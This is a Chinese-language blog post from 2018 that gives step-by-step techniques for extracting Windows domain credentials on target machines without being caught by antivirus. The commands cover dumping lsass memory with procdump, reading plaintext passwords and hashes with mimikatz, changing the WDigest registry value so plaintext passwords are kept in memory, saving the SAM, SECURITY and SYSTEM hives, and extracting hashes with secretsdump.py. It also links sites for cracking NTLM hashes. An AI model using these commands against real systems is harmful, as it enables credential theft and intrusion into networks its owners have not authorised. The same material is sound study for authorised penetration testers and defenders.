 ```yaml
---
layout: post
title: 绕过杀软导出域内用户hash和明文密码
date: 2018-12-13 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器—获取域管登录凭证—登录域控导出所有用户hash—完毕  
在目标机器上使用mimikatz导出用户密码时经常遇到杀软，本文主要记录各种绕过杀软的小技巧。  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E7%94%A8%E6%88%B7hash%E6%88%96%E5%AF%86%E7%A0%81%E8%AE%B0%E5%BD%95/hash_hack.jpg?raw=true) 




图片来源于https://www.blackhillsinfosec.com/got-privs-crack-those-hashes/

本文中的方法主要有：  
1、方法一：从内存中dump lsass进程的数据，本地mimikatz读取用户hash和明文密码（procdump.exe+mimikatz）  
2、方法二：从注册表中读取用户hash  

### \#0x01 从内存中dump lsass进程的数据后本地读取hash和文明密码

##### 1、导出lsass进程的内存数据
导出lsass进程的内存数据使用的是微软官方的工具[procdump.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)，肯定可以免杀。  
在目标机器上执行：  
```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
将在本目录下生成lsass.dmp    
##### 2、本地读取lsass.dmp中的密码  
将lsass.dmp下载会本地后使用mimikatz读取密码，注意，本地运行mimikatz的机器版本要于目标机器版本兼容，其对应关系如下：  
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E7%94%A8%E6%88%B7hash%E6%88%96%E5%AF%86%E7%A0%81%E8%AE%B0%E5%BD%95/systems.png?raw=true)

在本地机器上通过mimikatz执行如下命令(注意mimikatz.exe与lsass.dmp同目录)：  
```
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
```

由于lsass.dmp一般比较大，可能几十甚至上百兆，下载回本地比较困难，若域内有版本满足上图要求且已控并可以运行mimikatz的机器的话，可以在已控的机器上运行如下命令，毕竟域内机器之间传输lsass.dmp要快且方便的多。远程执行以下命令：  
```
mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit" >> C:\PerfLogs\log.txt
```
##### 3、读取明文密码默认情况下需要目标系统满足如下条件 
Windows 7  
Windows 8  
Windows 8.1  
Windows Server 2008  
Windows Server 2012  
Windows Server 2012 R2  

如果目标系统不满足上述条件时，可以通过修改注册表使系统内存记录用户明文密码，然后dump lsass读取明文密码(需用户重新登录)，Windows Server 2016测试成功。  

管理员权限执行：
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```
确认是否修改成功：
```
REG QUERY "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential 
```
如果UseLogonCredential的值为1时，表示修改成功。  
取消记录用户明文密码：  
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```

### \#0x02 从注册表中读取用户hash
##### 1、复制注册表项
需要复制的注册表项有：  
```
HKEY_LOCAL_MACHINE\SAM
HKEY_LOCAL_MACHINE\SECURITY
HKEY_LOCAL_MACHINE\SYSTEM
```
利用系统自带的命令复制注册表项，肯定可以免杀，执行如下命令：  
```
C:\> reg.exe save hklm\sam c:\sam.save
C:\> reg.exe save hklm\security c:\security.save
C:\> reg.exe save hklm\system c:\system.save
```
解释下这三个注册表项：  
The SAM subkey refers to information about Security Accounts Manager (SAM) databases for domains. Within each database are group aliases, users, guest accounts, and administrator accounts, plus the name used to log in to the domain, cryptographic hashes of each user's password, and more.

The SECURITY subkey is used to store the security policy of the current user. It's linked to the security database of the domain where the user is logged in, or to the registry hive on the local computer if the user is logged in to the local system domain.

To see the contents of the SAM or SECURITY key, the Registry Editor must instead be opened using the System Account, which has greater permissions than any other user, even a user with administrator privileges.

HKEY_LOCAL_MACHINE\SYSTEM用来解密HKEY_LOCAL_MACHINE\SAM和HKEY_LOCAL_MACHINE\SECURITY，其中HKEY_LOCAL_MACHINE\SAM主要包含本地用户hash和用户的一些属性信息，HKEY_LOCAL_MACHINE\SECURITY主要包含缓存的域用户凭证和LSA Secrets。
##### 2、提取注册表项中的用户hash
将sam.save、security.save和system.save下载回本地后提取用户hash，提取用户hash的工具有很多，本人常用Impacket的secretsdump.py。  
执行以下命令获取sam.save中的用户hash及security.save中缓存的域用户凭证和LSA Secrets。  
注意，这里在security.save获取到的域用户hash是经过加密处理的，不能用于PASS-THE-HASH Attack。  
```
secretsdump.py  -sam sam.save -security security.save -system system.save LOCAL
```
执行结果如下所示  
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E7%94%A8%E6%88%B7hash%E6%88%96%E5%AF%86%E7%A0%81%E8%AE%B0%E5%BD%95/reg_hash%20copy.png?raw=true)

也可以单独获取hash或域用户凭证  
获取sam.save中的用户hash  
```
secretsdump.py  -sam sam.save -system system.save LOCAL
```
获取security.save中缓存的域用户凭证和LSA Secrets  
```
secretsdump.py  -security security.save -system system.save LOCAL
```
ntlm hash可以尝试在这里破解：  
[cmd5](https://www.cmd5.com/)  
[LM/NTLM hash在线破解](https://www.objectif-securite.ch/en/ophcrack.php)

## 未完待续……

### \#0x03 参考
* [Dumping Windows Credentials](https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/)
* [HKEY_LOCAL_MACHINE (HKLM Registry Hive)](https://www.lifewire.com/hkey-local-machine-2625902)  


